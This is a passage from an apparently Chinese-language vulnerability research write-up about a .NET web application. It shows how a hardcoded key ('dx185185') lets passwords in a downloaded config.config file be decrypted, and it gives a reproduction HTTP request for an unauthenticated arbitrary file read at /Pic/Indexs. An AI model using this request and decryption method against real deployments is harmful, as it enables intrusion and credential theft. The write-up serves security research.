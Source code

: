 ![](https://cdn.nlark.com/yuque/0/2023/png/12959325/1695805586537-a9c26c02-fd63-4e1c-9415-a06677a7988f.png)

果然和自己想法一样-到最后因为重置密码，最后可以会有属于加密的方式再这里--前提是上面提取到解密到对比拿到的flag必须是一样的，才可以触发到这里

```php
modValue.AttrValue.Add("PassWord", Funcs.smethod_1(PassWord1, "dx185185", "dx185185"));
```

![](https://cdn.nlark.com/yuque/0/2023/png/12959325/1695806348875-6dc67eed-1571-4f64-83cc-32a0d918faea.png)

试一下功能，会不会说修改了以后就会保存再config.config了,如果是的话，自己任意文件下载config.config回来拿到的password，就哭呀直接丢到config.config去提取去解密了

配置已更改，系统设置-重启生效

![](https://cdn.nlark.com/yuque/0/2023/png/12959325/1695806477082-ba46e740-c085-4de3-971b-1dfb8138b0db.png)

去看看config.config里的--拿到123456的密码了

![](https://cdn.nlark.com/yuque/0/2023/png/12959325/1695806531593-22fee5fe-f64e-4ada-92fe-94dc0d60cdfe.png)

debug调试--还是原来的思路试试--结果就比如我下载回来的config.config文件里的`password`加密字段-我是不知道的，然后我直接就丢进config.config文件里直接就解密了

![](https://cdn.nlark.com/yuque/0/2023/png/12959325/1695914765387-c048d75f-4045-41d1-9fc6-6b9629a2bbff.png)

![](https://cdn.nlark.com/yuque/0/2023/png/12959325/1695914049861-c120ea59-a74a-4e3c-bf8a-ac01ad2e6f7c.png)

![](https://cdn.nlark.com/yuque/0/2023/png/12959325/1695914482590-2c30df5e-832b-4622-8516-5677d4210b62.png)

我重新丢回我7.13的进去还是一样可以拿到密码

```php
5WaD@Vd1uxk=
```

![](https://cdn.nlark.com/yuque/0/2023/png/12959325/1695914913670-bdb798df-a464-4718-a17b-77af6915826d.png)

三、前台文件读取加密exp编写以及漏洞加密流程调试分析--/Pic/Indexs-key的任意文件读取-8.6.1.0
-----------------------------------------------------------

### 复现

```php
GET /Pic/Indexs?imgs=jCXF6i9anXA0lkOVC3FrBg==GG HTTP/1.1
Host: 10.10.11.184:8088
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:109.0) Gecko/20100101 Firefox/113.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Connection: close
Upgrade-Insecure-Requests: 1

```
